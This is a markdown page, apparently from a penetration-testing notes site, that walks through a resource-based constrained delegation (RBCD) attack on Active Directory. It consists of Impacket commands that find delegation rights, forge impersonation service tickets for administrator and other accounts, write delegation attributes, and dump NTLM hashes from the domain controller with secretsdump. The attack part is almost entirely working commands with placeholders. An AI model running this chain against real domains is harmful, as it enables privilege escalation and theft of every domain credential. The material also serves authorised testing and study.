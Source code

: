 ```yaml
---
title: "Constrained Delegation"
date: 2024-8-2
tags: ["Credential Dumping", "Impacket", "Pass-The-Ticket", "Silver Ticket", "Ticket Granting Ticket", "Constrained Delegation", "Active Driectory", "Windows", "RBCD"]
---
```


### Abuse #1: RBCD Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Find delegation

```console
# Check delegation
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USER>' -dc-ip <DC> -hashes :<HASH> -k
```

#### 2. Get a service ticket

```console
impacket-getST -spn <SERVICE>/<TARGET_DOMAIN> -impersonate administrator '<DOMAIN>/<USER>' -hashes :<HASH> -self
```

```console
# Check forwardable flag
describeTicket.py <TICKET_1>.ccache
```

#### 3. RBCD Attack

```console
# Add delegation
impacket-rbcd '<DOMAIN>/<USER>' -hashes :<HASH> -k -delegate-from <USER> -delegate-to <TARGET_1> -action write -dc-ip <DC> -use-ldaps
```

```console
# Check
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USER>' -dc-ip <DC> -hashes :<HASH> -k
```

#### 4. Get a service ticket

```console
# Impersonate
impacket-getST '<DOMAIN>/<USER>:<PASSWORD>' -spn <SERVICE>/<TARGET_DOMAIN> -impersonate <TARGET_2>
```

```console
# Check forwardable flag
describeTicket.py <TICKET_2>.ccache
```

#### 5. Impersonate

```console
impacket-getST -spn <SERVICE>/<TARGET_DOMAIN> -impersonate <TARGET_2> '<DOMAIN>/<TARGET_1>' -hashes :<HASH> -additional-ticket <TICKET_2>.ccache
```

#### 4. Secrets Dump

```console
export KRB5CCNAME='<TICKET_2>.ccache'
```

```console
impacket-secretsdump -no-pass -k <DC> -just-dc-ntlm
```

{{< /tabcontent >}}
